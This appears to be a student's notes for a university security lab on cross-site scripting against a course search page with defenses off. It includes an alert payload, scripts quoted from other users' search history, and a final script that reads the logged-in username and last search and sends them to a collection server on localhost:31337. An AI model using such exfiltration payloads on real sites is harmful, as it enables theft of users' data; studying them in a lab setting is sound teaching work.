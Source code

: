 ## 2.0 - No defenses
Target: https://project2.ecen4133.org/search?xssdefense=0
Submission: xss_0.txt
            xss_payload.html

* using script function in search bar produces xss alert
`<script> alert('0') </script>`

* logging in as `test` `test` produces interesting results (presumably from other users using same login)
* i can see my own search history as well as past queries (from other users) - some of which are some interesting scripts:
    ```
    <script> 
       $(function(){ 
   	    var userName = document.getElementById("logged-in-user").innerHTML; 
            var lastSearch = "NO_SEARCH"; var history = document.getElementById("history-list").getElementsByClassName('history-item'); lastSearch = history[1].innerHTML; $.get("http://localhost:31337/?stolen_user="+userName+"&last_search="+lastSearch) }) 
    </script>
    ```

    ```
    <script> 
        var user = document.getElementById('logged-in-user').innerHTML; console.log(user); 
        $(window).ready(function(){ 
            $(function(){ 
                var historyList = document.getElementById('history-list'); 
                console.log(historyList); 
                if (window.confirm('If you click "ok" you would be redirected . Cancel will load this website ')){ 
                    window.location.href='http://localhost:31337'; }; 
             }); 
        }); 
    </script>
    ```

    ```
    <script>
        setTimeout(function(){ 
            console.log(document.getElementById("history-list"));}, 3000);
    </script>
    ```

* produces current user logged in --> `document.getElementById("logged-in-user").innerHTML;`
* produces current user search history --> `document.getElementById("history-list");`
* produces current user single item search history --> `document.getElementById("history-list").getElementsByClassName('history-item');`

* from here i have determined the following (rough) solution:
    ```
    <script>
        $(function() {
  
            // load up some vars
            var username = document.getElementById("logged-in-user").innerHTML;
            var last_search = document.getElementById("history-list").getElementsByClassName('history-item')[1].innerHTML;
            var url = 'http://localhost:31337/?stolen_user=' + username + '&last_search=' + last_search;

            // produce get request to requested url
            $.get(url);
        });
    </script>
```


